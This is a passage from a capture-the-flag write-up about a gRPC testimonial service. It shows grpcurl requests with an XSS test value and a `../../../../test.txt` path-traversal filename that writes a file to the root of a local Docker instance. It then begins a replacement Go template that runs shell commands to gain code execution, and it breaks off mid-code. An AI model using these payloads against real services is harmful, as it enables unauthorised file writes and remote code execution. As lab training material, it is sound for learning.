 {% code overflow="wrap" %}
```bash
./grpcurl -plaintext -d '{"customer": "<script>alert(0)</script>", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

ERROR:
  Code: Unknown
  Message: open public/testimonials/<script>alert(0)</script>: no such file or directory
```
{% endcode %}

It failed to open that file, because it failed to read the filename. Remember:

{% code overflow="wrap" %}
```go
err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
if err != nil {
	return nil, err
}
```
{% endcode %}

How about directory traversal? If we input `../../../../test.txt`, will it be written to `/`?

{% code overflow="wrap" %}
```bash
./grpcurl -plaintext -d '{"customer": "../../../../test.txt", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```
{% endcode %}

We can check the local docker instance.

{% code overflow="wrap" %}
```bash
docker exec -it web_testimonial bash

~ # ls /
bin                 flagc5f171e16f.txt  mnt                 sbin                usr
challenge           go                  opt                 srv                 var
dev                 home                proc                sys
entrypoint.sh       lib                 root                test.txt
etc                 media               run                 tmp
```
{% endcode %}

It is! The next part took me a long time - trying to work out how to gain RCE. I was mostly trying to inject payloads into the page, to no avail. In the end, I used the path traversal vuln to replace `index.templ` with a malicious one.

{% code overflow="wrap" %}
```go
package home

import (
    "os/exec"
    "strings"
)

func hack() []string {
    output, _ := exec.Command("ls", "/").CombinedOutput()
    lines := strings.Fields(string(output))
    return lines
}
```